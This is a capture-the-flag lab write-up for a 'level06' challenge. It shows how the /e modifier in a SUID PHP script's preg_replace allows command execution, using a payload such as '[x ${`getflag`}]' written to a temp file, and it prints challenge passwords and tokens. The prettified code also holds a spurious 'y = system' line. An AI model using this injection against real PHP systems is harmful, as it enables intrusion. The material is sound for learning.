# LEVEL 06

> [!TIP]
> user: `level06` <br>
> pass: `viuaaale9huek52boumoomioc`

## STEP 01

1. Retrieving the level06'.original'.php file
	```php
	#!/usr/bin/php
	<?php
	function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
	function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
	$r = x($argv[1], $argv[2]); print $r;
	?>
	```

2. Making the newly obtained script, more pleasant to see, without altering it,
will help us to understand what's going on
	```php
	#!/usr/bin/php
	<?php

	function y($m)
	{
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}

	function x($y, $z)
	{
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}

	y = system

	$r = x($argv[1], $argv[2]); print $r;

	?>
	```

The prettier version of the script enlighten us on process path:

1. The first and the second arg of the script is passed through the x function
2. The y arg is a path to a file to read
3. The readed file is then passed to a [preg_replace](https://www.php.net/manual/en/function.preg-replace.php)
   function with different arguments and RegEx
4. An intresting RegEx is the one with the `e` modifier, because it make
   everthing that match the **pattern**, evaluated in the the **replacement**
   field, we could inject some evaluation that's lead us to a RCE

> [!TIP]
> We can conclude that the exploit vector is this function with the
> `/(\[x (.*)\])/e` **pattern**

## STEP 02

As stated by STEP 01, we can start crafting our payload around this
`(\[x (.*)\])` RegEx

1. Triggering the RegEx with the following file
	```bash
	echo '[x test]' > /tmp/f; /home/user/level06/level06 /tmp/f
	#test
	```

2. Triggering with evaluation, perhaps with `argv[2]` aka `$z`
	```bash
	echo '[x ${z}]' > /tmp/f; /home/user/level06/level06 /tmp/f "test Z"
	#test Z
	```

3. Triggering with an error
	```bash
	echo '[x ${notfound}]' > /tmp/f; /home/user/level06/level06 /tmp/f
	#PHP Notice:  Undefined variable: notfound in /home/user/level06/level06.php(4) : regexp code on line 1
	```

> [!NOTE]
> An important thing to note here, is that **variable** are evaluated **and**
> if not found the **name** is returned.

4. Targetting variable name with command subst
	```bash
	echo '[x ${`whoami`}]' > /tmp/f; /home/user/level06/level06 /tmp/f
	#PHP Notice:  Undefined variable: flag06
	# in /home/user/level06/level06.php(4) : regexp code on line 1
	```

> [!TIP]
> here we go, we can retrieve the flag by using: <br>
> ```bash
> echo '[x ${`getflag`}]' > /tmp/f; /home/user/level06/level06 /tmp/f
> #PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
> # in /home/user/level06/level06.php(4) : regexp code on line 1
> ```

> [!IMPORTANT]
> the password for the next level is `wiok45aaoguiboiki2tuin6ub`
